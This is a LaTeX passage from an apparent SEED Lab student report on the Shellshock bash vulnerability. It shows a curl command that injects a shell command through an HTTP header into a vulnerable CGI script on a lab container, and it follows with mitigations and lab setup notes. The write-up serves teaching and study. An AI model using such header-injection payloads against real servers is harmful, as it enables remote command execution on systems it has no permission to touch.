    
\includegraphics[width=1.0\linewidth]{Picture/03_shellshock__cgi-exploited/03_bash_shellshock_exploited__cgi-psef.pdf.png}
    \caption{View parent and child processes after Shellshock exploitation}
    \label{fig:shellshock.exploit.cgi.headers.psef}
\end{figure}

%% TODO: 
\subsubsection{Launch \textit{Shellshock Attack} trough custom headers: create file inside \lstinline{/tmp}}

One issue with the method  I showed before in the previous  is the fact that passing parameters directly with \lstinline{-H} flag will be discoverable very easily 
as can be seen of \textit{Figure \ref{fig:curl.trace.psef}} : 

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/03_shellshock__cgi-exploited/03_bash_shellshock_exploited__cgi-psef.onthe-wire.pdf.png}
    \caption{Tracing \lstinline{curl}'s arbitrary http header with flag \lstinline{--trace}}
    \label{fig:curl.trace.psef}
\end{figure}

(For the complete log created with \lstinline{curl -v --trace} command, please refer to the file \lstinline{debug.exploited__psef.txt} within \textit{Appendix \ref{apx:debug.exploited__psef.txt}})

One idea to "counter" this issue is to use \textit{command substituiton}\cite{shell.commandsubst} feature of \lstinline{bash}. I used this  idea as can be seen in \textit{Listings}. Namely this way the custom header (invoked with flag \lstinline{-H}\cite{bin.curl}) field
will remain similar to as depicted on \textit{Figure \ref{fig:apachicgi.curl}}. For the actual content of the file \lstinline{debug.shell-command-substitution.trace.txt} please refer to the file \textit{Appendix \ref{lst:output.debug.debug.curtracenested}}

\begin{lstlisting}[language=bash, caption=Using command substitution while exploiting Shellshock vulnerability, label={lst:curl.header.command-substitution}]
    curl -v -H "Content-Type: $(strace -ff -o strace_output_child.txt /bin/sh -c 'mkdir /tmp/testfiletrace')" 10.9.0.5/cgi-bin/vul.cgi --trace debug.shell-command-substitution.tracefile.txt
\end{lstlisting}

For the comprehensive view of the content of \lstinline{debug.shell-command-substitution.trace.txt} please refer to \textit{Appendix \ref{apx:output.debug.debug.curtracenested}} 

% TODO I: 
% ------------------------------------------------
% Magyarazat az `strace` vegere 
% psszhangban: https://access.redhat.com/articles/1212303 ezzel

%%% 
% Using the command \lstinline{grep}\cite{bin.grep} \lstinline{grep ".so" strace_output.txt } as can be seen of % %\textit{Listing \ref{lst:solib.called}}: 

% \begin{lstlisting}[language=bash, caption=Shared objects called during the Shellshock Attack, label={lst:solib.called}]
% 6250  access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
% 6250  openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
% 6250  openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
% 6250  openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
% 6250  access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
% 6250  openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
% 6250  openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libselinux.so.1", O_RDONLY|O_CLOEXEC) = 3
% 6250  openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
% 6250  openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpcre2-8.so.0", O_RDONLY|O_CLOEXEC) = 3
% 6250  openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
% 6250  openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpthread.so.0", O_RDONLY|O_CLOEXEC) = 3
% \end{lstlisting}


%% ------------------------------------------------
%% TODO: shellshock combined with staged shellcode <- kesobb ,ha lesz meg ido
%^ \subsubsection{Launch \textit{Shellshock Attack} trough custom headers: hide tracks for created file inside \lstinline{/tmp}}


%TODO: Explain how the vulnerability was fixed. 
\section{Mitigations against Shellshock }
\label{sec:shellshock.mitigate}

% Network-based mitigations
% -------------------------
%    Network mitigation 1: mod_security rules
%    Network mitigation 2: IPTables rules
%    Network mitigation 2: IPTables rules

% System-based mitigations
% % -------------------------


According to \cite{shellshock.CVE-2014-6271.mitigation}, there are two main strategies to mitigate against the \textit{CVE-2014-6271} variant of \textit{Shellshock}\cite{shellshock.CVE-2014-6271}: \textit{Network-based mitigations} and \textit{System-based mitigations}.

To block attacks against web services, such as attacks against \textit{CGI} applications  \lstinline{mod_security} rules\cite{shellshock.CVE-2014-6271.mitigation.modsecurity} can be used to reject \textit{HTTP} requests containing data that may be interpreted by \lstinline{bash} as a function definition if set in its environment similarly as showed in \textit{Section \ref{ssec:shellshock.attacker.model}}. 

It is also possible to use \lstinline{iptables}\cite{bin.iptables} string matching to attempt to drop packets that could be part of an attack, however this is considered  as a weak workaround, as an attacker could easily send one or two characters per packet, which would avoid matching this signature check. \cite{shellshock.CVE-2014-6271.mitigation}

The shellshock vulnerability arises from the fact that you can create environment variables with specially-crafted values before calling the Bash\cite{shell.bash} shell. These variables can contain code, which gets executed as soon as the shell is invoked. 

The initial patch for CVE-2014-6271\cite{shellshock.CVE-2014-6271} was found to be incomplete, the patch for CVE-2014-7169\cite{shellshock.CVE-2014-7169} addresses this, but it does not entirely remove the vulnerable functionality. The easier solution is the case if one entirely removes the vulnerable functionality from Bash, consequently all possible attack variants will be mitigated.\cite{shellshock.CVE-2014-6271.mitigation}

% ha meg lesz ido akkor: *.so <- kesobb

% bibliograph
\newpage
\printbibliography
\newpage



\begin{appendix}
\section{Lab Environment Setup}
%\include{Appendix/00_Environment-Setup/00_Environment-Setup}
\subsection{Host Environment Setup}
\label{apx:host-env-setup}


%%
As a container engine I use \lstinline{Podman}\cite{podman} istead of \lstinline{Docker}\cite{docker}.

%%
\lstinline{Podman}  (\textit{Pod Manager}) is a fully featured container engine that is a simple daemonless tool.  
It  provides  a  Docker-CLI  comparable command  line that eases the transition from other container engines
and allows the management of \textit{pods}, \textit{containers}  and  \textit{images}.\cite{oci.containers}   

Podman\cite{podman}  uses  Buildah\cite{buildah} internally to create container images. Both tools share image (not container) storage, hence each can use or manipulate images (but not containers) created by the other.

Please note, throughout the assignment I used the \textit{alias}\cite{shell.alias} defined as \lstinline{alias docker=podman},
thus I use both of them. 


% ------------------------------------------------------------------------
\subsection{Building LAB environment based on the provided SEED LAB files}
\label{apx:seedphp-apache}

For the assignment I used \lstinline{yml} and \lstinline{Dockerfile} provided by SEED Lab\cite{seedlabshellshockattack}. \textit{Figure \ref{fig:seedlabapachesetup}} shows the building process of the container environment with network \lstinline{net-10.9.0.0} with command \lstinline{ podman compose --file docker-compose.yml up --detach}: 

% Building lab
\begin{figure}[h]
    \centering
